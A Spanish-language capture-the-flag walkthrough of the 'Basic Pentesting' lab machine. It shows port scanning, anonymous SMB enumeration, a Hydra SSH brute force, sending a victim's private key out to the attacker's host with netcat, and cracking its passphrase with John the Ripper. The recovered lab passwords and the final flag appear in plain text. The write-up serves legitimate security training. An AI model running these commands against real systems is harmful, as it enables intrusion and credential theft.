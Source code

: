 # Basic Pentesting

## Escaneo de puertos

Usamos`nmap`para visualizar los servicios expuestos en la máquina.

```
sudo nmap -sC -sV 10.10.85.200
```

![Escaneo de puertos](images/Pasted%20image%2020250222181007.png)

Encontramos los puertos 22, 80, 139, 445 abiertos.

## Inspeccionando el sitio web

Accedemos al sitio web por la IP.

![Sitio web](images/Pasted%20image%2020250222181820.png)

No hay gran cosa pero usamos`dirbuster`para buscar más directorios ocultos.

![Dirbuster](images/Pasted%20image%2020250222182004.png)

Encontramos el directorio`/development/`y accedemos a él.

![Directorio](images/Pasted%20image%2020250222182125.png)

```
http://10.10.85.200/development/
```

![Contenido desarrollo](images/Pasted%20image%2020250222182148.png)

Descargamos los ficheros del directorio con los siguientes comandos:

```
wget http://10.10.85.200/development/dev.txt   
wget http://10.10.85.200/development/j.txt
```

![Descarga](images/Pasted%20image%2020250222182339.png)

Este es el contenido de los archivos:

![Contenido de archivos](images/Pasted%20image%2020250222182426.png)

Llegamos a la conclusión de que el developer J tiene una contraseña débil y que puede ser crackeada.

## Enumerando el servicio SMB

Tenemos que buscar el nombre del developer "J". Enumeramos los sharename del servicio SMB activo.

```
smbclient -L //10.10.85.200 -N 
```

Podemos aprovecharnos del`Anonymous`.

![SMB Anonymous](images/Pasted%20image%2020250222182811.png)

```
smbclient //10.10.85.200/Anonymous -N 
```

![Acceso SMB](images/Pasted%20image%2020250222182931.png)

Vemos que hay un archivo llamado`staff.txt`. Nos lo descargamos para visualizarlo.

![staff.txt](images/Pasted%20image%2020250222183040.png)

El nombre de J era `Jan`y el de K era`Kay`.

## Ataque de fuerza bruta con Hydra

Vamos a hacer un ataque de fuerza por SSH al usuario`Jan`usando el diccionario rockyou.

```
sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.85.200 ssh
```

Después de un tiempo, obtenemos la contraseña de`jan`, que es`armando`.

![Hydra](images/Pasted%20image%2020250222184127.png)

## Escalada de privilegios

Accedemos por SSH con las credenciales obtenidas:

```
ssh jan@10.10.85.200
```

![SSH acceso](images/Pasted%20image%2020250222184243.png)

Nos ubicamos en la carpeta home de`Kay`y descubrimos que podemos acceder a los pares de claves privadas.

![Claves privadas](images/Pasted%20image%2020250222184436.png)

Levantamos un netcat en escucha por el puerto 4040 en Kali:

```
nc -nlp 4040 > id_rsa
```

Y en la víctima lo enviamos con el siguiente comando:

```
nc 10.8.3.33 4040 < id_rsa
```

Ahora que tenemos la clave descargada la vamos a usar con John the Ripper para crackear la contraseña de`Kay`.

Modificamos el formato del archivo de`id_rsa`para que sea compatible con JTR.

```
sudo python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

Ejecutamos el ataque con`John the Ripper`.

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

La passphrase de la clave de`Kay`es`beeswax`.

![John the Ripper](images/Pasted%20image%2020250222185856.png)

Accedemos entonces por SSH con el usuario`Kay` y ponemos el passphrase de la clave.

```
sudo ssh -i id_rsa kay@10.10.85.200
```

![Acceso Kay](images/Pasted%20image%2020250222180834.png)

Finalmente, encontramos la contraseña.

![Contraseña encontrada](images/Pasted%20image%2020250222180929.png)

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```






































